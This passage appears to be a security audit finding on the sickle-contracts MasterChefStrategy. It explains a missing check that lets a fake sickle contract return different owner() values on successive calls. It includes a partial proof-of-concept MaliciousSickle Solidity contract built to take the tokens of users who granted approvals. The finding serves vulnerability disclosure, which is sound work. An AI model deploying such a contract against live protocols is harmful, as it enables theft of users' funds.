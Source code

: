 Later on in the function the `sickle.owner()` is called again when transferring the ERC20 token to the sickle.

[MasterChefStrategy.sol:84](https://github.com/vfat-tools/sickle-contracts/blob/75ff43f6447149d0c2218bf1e6cb22632f8b213b/contracts/strategies/MasterChefStrategy.sol#L84)

```solidity
IERC20(zapData.tokenIn).transferFrom(
    sickle.owner(), sickleAddress, zapData.amountIn
);
```

Because there is no check in the code to make sure the passed sickle contract is legit. If someone is able to pass a contract that would return `msg.sender` on the first call, then the address of an account with an approval on the strategy on the second call, they would be able to steal the tokens.

Here is a POC:

Malicious contract that can be used to attack with `masterChef_deposit()` function.

```solidity
contract MaliciousSickle {
    address badOwner; //address of the attacker
    address innocent; //address of an innocent with an approval on the MasterChef strategy
    address public registry;

    constructor(address badOwner_, address innocent_, address registry_) {
        badOwner = badOwner_;
        innocent = innocent_;
        registry = registry_;
    }

    function owner() public view returns (address) {
        uint256 gas = gasleft();
        console.log(gas);
        //use gasleft to decide which owner to return, if calling with 500k
        //The first call should correspond to this gas left.
        if (gas == 489_661) {
            console.log(gasleft());
            return badOwner;
        }
        return innocent;
    }

    function transfer(
        address token,
        address to,
        uint256 value
    ) external payable {
        //remove transfer so we don't have to pay fee
    }

    function selfApprove(
        address token,
        address spender,
        uint256 amount
    ) external payable {
        if (IERC20(token).allowance(address(this), spender) < amount) {
            SafeTransferLib.safeApprove(token, spender, amount);
        }
    }

    function multicall(
        address[] calldata targets,
        bytes[] calldata data,
        bool[] calldata isDelegatecall,
        uint256[] calldata values
```